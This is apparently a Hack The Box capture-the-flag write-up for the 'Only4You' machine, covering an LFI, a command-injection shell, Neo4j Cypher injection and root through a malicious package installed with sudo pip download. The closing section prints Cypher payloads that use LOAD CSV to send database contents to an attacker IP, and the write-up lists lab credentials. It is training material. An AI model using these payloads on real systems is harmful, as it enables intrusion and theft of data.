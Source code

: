 ```yaml
---
title: Only4You Report
date: 2023-08-27 12:00:00 pm
categories: [HTB]
tags: [HTB, Linux, Medium, Python Scripting, RCE, LFI, CypherI, Pip]

img_path: /assets/img/htb/writeups/only4you
---
```


#  Only4you Report

* * *
 
## **Information gathering**

* * *
* * *

**Scope:** 10.10.11.210/32 (Linux)

![](target_connection.png)

**TCP Nmap scan:** 65,535 ports

![](nmap_all_ports_TCP.png)

* **Open ports**:
	* **22/ssh (secure shell protocol)** 
		* Banner grabbing
			* Version: OpenSSH_8.2p1 Ubuntu-4ubuntu0.5 (codename: focal) (no vulnerable)
	* **80/http (hypertext transfer protocol)**
		* Banner grabbing			 ![](htpp_redirection.png)
			 * HTTPServer: nginx/1.18.0 (Ubuntu)
			* RedirectLocation: http://only4you.htb/
				![](http_firefox.png)
				* On web content they say: **"We also have some products in beta version to show!"** and below a link to products available to check http://beta.only4you.htb/
					![](http_beta.png)
					* Source code provided
						![](http_beta_source_code.png)
					* Code Analysis
						* app.py (low protection when validating file download)

## **Vulnerability assessment**

* * *
* * *

* Code Analysis (app.py) (/var/www/beta.only4you.htb)
	![](code_analysis_lfi.png)
	* Absolute path not checked (/etc/hosts)
		![](lfi_poc.png)
		* Python script (lfi.py)
			![](lfi_script.png)

## **Exploitation**

* * *
* * *

* Code analysis (app.py) (/var/www/only4you.htb)
	![](code_analysis_rce.png)
	* PoC (ICMP connection)
		![](rce_poc_0.png)
		* www-data (shell)
			![](www-data_shell.png)

## **Post-exploitation**

* * *
* * *

* User enumeration (www-data)
	* Internal open ports
		![](www-data_internal_open_ports.png)
	* Forward socks proxy (chisel_linux): [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)
		* http://127.0.0.1:3000
			* Server: Gogs (A painless self-hosted Git service)
			* Reuse credential: john:ThisIs4You
		* http://127.0.0.1:8001
			* Server: gunicorn/20.0.4 (Python WSGI HTTP Server for UNIX)
			* Valid credentials: admin:admin
				![](8001_service_interface.png)
				* http://127.0.0.1:8001/search (**Vulnerable to Cypher injection Neo4j**)
					* Neo4j Investigation (PoC part below)
						* select * from users = match (n:users) return n
					* List labels
						* user, employee
							![](cypher_list_labels.png)
					* List values (user)
						* username, password
							![](cypher_injection_creds_poc.png)
						* Credentials
							* admin:8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 (admin)
							*  john:a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 (ThisIs4You)
								* Valid **SSH Credentials**
								![](john_shell.png)
		* http://127.0.0.1:7474
			* Server: neo4j 5.6.0 (Graph database management system developed by Neo4j)
			* No valid credentials
			* **Vulnerable**

## **Lateral movement**

* * *
* * *

* Persistence: **SSH key pair generation**
* System user enumeration (John:ThisIs4You)
	* Security police command list
		![](john_sudo_binary_list.png)
		* **Pip download** vulnerability
			* "Pip download" does the same resolution and downloading as pip install **(execute setup.py with metadata and dependecies, etc)** , but instead of installing the dependencies, it **collects the downloaded distributions into the directory provided (defaulting to the current directory)**
				* The issue occurs only when the package contains a **tar.gz file instead of a wheel (.whl) file**, which "cuts the 'setup.py' execution out of the equation."
			* **Building and Distributing Packages with Setuptools** [https://setuptools.pypa.io/en/latest/userguide/index.html](https://setuptools.pypa.io/en/latest/userguide/index.html)
				* Creating malicious package (with any os command that you nedd)
					![](malicious_package.png)
				* Build package
					![](build_package.png)
				* Upload tar.gz to Gogss Server (http://127.0.0.1:3000) (Local port forward)
					1. Create new or use a repository (if use a new repo uncheck private repository)
					2. Upload package (package.tar.gz)
					3. Download package with SUDO pip and get **Remote Code Execution** like **root**
					![](root.png)

## **Proof of concept**

* * *
* * *

* **Cypher injection (Local Neo4j console)**
	* Environment
		* Create new label: CREATE (a:USERS {name:'admin', password:'admin123'})
	* Valid data created
		* Show labels: CALL db.labels()
		* Match labels node: MATCH (a:USERS) WHERE a.name='admin' return a.name
	* Basic injection
		* match (a:USERS) where a.name='' or 1=1 return a.name
	* List Neo4j version
		* match (a:USERS) where a.name='' or 1=1 CALL dbms.components() YIELD versions UNWIND versions as version LOAD CSV FROM 'http://10.10.15.5/?version=' + version as l RETURN 0//return a.name
			![](cypher_injection_poc.png)
	* List labes ("tables")
		* match (a:USERS) where a.name='' or 1=1 CALL db.labels() YIELD label LOAD CSV FROM 'http://10.10.15.5/?=' + label as l RETURN 0//return a.name
			![](cypher_injection_labels_poc.png)
	* List values
		* match (a:USERS) where a.name='' or 1=1 match (x:USERS) UNWIND keys(x) as k LOAD CSV FROM 'http://10.10.15.5/?' + k + '=' + toString(x[k]) as l RETURN 0//return a.name
		![](cypher_injection_values_poc.png)

* Python script [https://github.com/E1P0TR0/CVE-Machines_htb/tree/main/Auto-tools_Only4You](https://github.com/E1P0TR0/CVE-Machines_htb/tree/main/Auto-tools_Only4You)
	* LFI && RCE && CYPHER INJECTION
		![](lfi_PoC.png)
		![](rce_PoC.png)
		![](cypher_PoC.png)
